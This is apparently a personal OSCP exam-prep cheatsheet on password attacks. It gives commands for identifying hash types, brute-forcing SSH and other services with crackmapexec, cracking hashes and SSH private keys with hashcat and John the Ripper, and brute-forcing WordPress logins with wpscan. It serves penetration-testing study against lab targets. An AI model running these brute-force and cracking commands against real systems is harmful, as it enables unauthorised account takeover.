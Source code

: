 ```yaml
---
title: Password Attacks
author: linatl
category: "OSCP"
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
> hashid -e hash.txt
> hash-identifier
```

###### Bruteforcing with Crackmapexec
```
> crackmapexec ssh 10.10.10.10 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Hashcat
```
> echo "$1$hash" > hash.txt
> hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
> echo "$1$hash" > hash.txt
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
> john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://10.10.10.10/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```

###### Other online tools
```
CyberChef (GHCQ)
https://github.com/gchq/CyberChef
```
